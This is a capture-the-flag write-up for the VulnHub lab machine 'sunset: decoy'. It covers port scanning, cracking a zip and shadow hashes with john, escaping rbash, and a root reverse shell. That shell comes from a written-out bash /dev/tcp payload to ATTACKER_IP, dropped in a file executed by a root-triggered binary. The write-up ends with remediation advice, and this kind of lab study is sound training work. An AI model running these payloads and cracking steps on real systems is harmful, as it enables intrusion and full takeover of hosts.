


# sunset: decoy — Writeup

| | |
|-|-|
| **Target IP** | 192.168.10.186 (host-only) |
| **Difficulty** | Easy/Intermediate |
| **OS** | Linux |
| **Root Flag** | via honeypot binary exploit |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/sunset-decoy,505/) |

## Attack Summary

nmap → download save.zip → zip2john → john (manual) → extract shadow backup → john → SSH with bash --noprofile (rbash escape) → user flag → pspy64 → honeypot.decoy binary → EDB-33899 reverse shell → root

## Methodology

1. Network discovery and port scan
2. Web enumeration — download `save.zip`
3. Crack zip password with zip2john + john
4. Extract backup shadow file, crack SSH user hash
5. SSH login with rbash bypass
6. Process monitoring with pspy64
7. Exploit honeypot binary for root shell

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.10.0/24
nmap -sV -sC -p- 192.168.10.186
```

Ports open: 22 (SSH), 80 (HTTP).


---

## Step 2: Download and Crack save.zip

```bash
wget http://192.168.10.186/save.zip
zip2john save.zip > zip.hash
john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash
# Password: manual

unzip -P manual save.zip
# Extracts backup system files including /etc/shadow backup
```


---

## Step 3: Crack Shadow Hash

Copy the SSH user hash from the extracted shadow backup:

```bash
cat etc/shadow
# Copy target user hash to users.hash
john --wordlist=/usr/share/wordlists/rockyou.txt users.hash
```


---

## Step 4: SSH Login — rbash Bypass

The shell is restricted (`rbash`). Bypass using `bash --noprofile`:

```bash
ssh -t user@192.168.10.186 "bash --noprofile"
# or
ssh user@192.168.10.186
# export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
cat user.txt
```

---

## Step 5: Privilege Escalation via Honeypot Binary

Run pspy64 to monitor processes:

```bash
./pspy64
# Observe: root-owned binary executes periodically
```

The `honeypot.decoy` binary (option 5) triggers a root process. Use EDB-33899:

```bash
# On attacker: start listener
nc -lvnp 4444

# Create reverse shell payload
echo '#!/bin/bash' > update
echo 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' >> update
chmod +x update

# Run honeypot option 5 to trigger execution
./honeypot.decoy
# Select option 5 — wait ~60 seconds for cron/timer
```

Root reverse shell arrives on the listener.



```bash
id
# uid=0(root)
cat /root/flag.txt
```



---

## Lessons Learned

1. **Backup files in web root** — `save.zip` exposes shadow hashes; backups must never be web-accessible
2. **Weak zip password** — `manual` is a dictionary word; use strong encryption for archives
3. **rbash is not a security boundary** — `ssh -t "bash --noprofile"` trivially escapes it
4. **Root-owned binaries triggered by users** — process monitoring reveals timing attacks; honeypot/decoy binaries with SUID are high-risk

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| Backup zip in web root | Store backups outside web-accessible paths with strict permissions |
| Shadow in backup archive | Never include `/etc/shadow` in web-accessible backups |
| rbash escape | Replace with proper container/chroot isolation if restriction is required |
| Privileged binary triggered by user input | Audit SUID binaries; remove or sandbox privilege-escalating programs |
